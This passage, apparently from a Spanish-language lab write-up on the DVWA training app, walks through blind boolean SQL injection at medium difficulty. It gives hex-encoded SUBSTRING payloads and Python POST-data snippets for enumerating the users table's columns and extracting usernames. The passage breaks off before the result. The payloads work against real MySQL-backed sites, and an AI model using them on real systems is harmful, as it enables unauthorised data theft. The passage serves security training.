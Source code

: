 Ahora enumeraremos las columnas de la tabla users con la siguiente consulta que pondremos en el script:

`1 AND (SELECT SUBSTRING(column_name,1,1) FROM information_schema.columns WHERE table_schema = 0x64767761 AND table_name = 0x7573657273 limit 1)=0x61 -- -`

Y adaptada al script:

```py
data_post = {
    'id': "1 AND (SELECT SUBSTRING(column_name,%d,1) FROM information_schema.columns WHERE table_schema = 0x64767761 AND table_name = 0x7573657273 limit 1)=%s -- -" % (position, hexadecimal),

    'Submit': "Submit"
    }
```

Ahora al ejecutar el script veremos el primer nombre de la columna de la tabla users:

![column](/assets/images/DVWA-SQLi/SQLiBlind-medium/columnname.png)

Y nuevamente jugando con el limit enumeraremos el resto de columnas, en este caso encontramos las siguientes:

- user_id
- first_name
- last_name
- user
- password
- avatar
- last_login
- failed_login

<br>

Y por último solo nos queda enumerar los datos de cada columna, empezando por usuarios, así que nuestra consulta quedará así:

`1 AND (SELECT SUBSTRING(user,1,1) FROM dvwa.users limit 1)=0x61`

Y adaptado al script se vería:

```py
data_post = {
    'id': "1 AND (SELECT SUBSTRING(user,%d,1) FROM dvwa.users limit 1)=%s" % (position, hexadecimal),

    'Submit': "Submit"
    }
```

Y nos responderá:
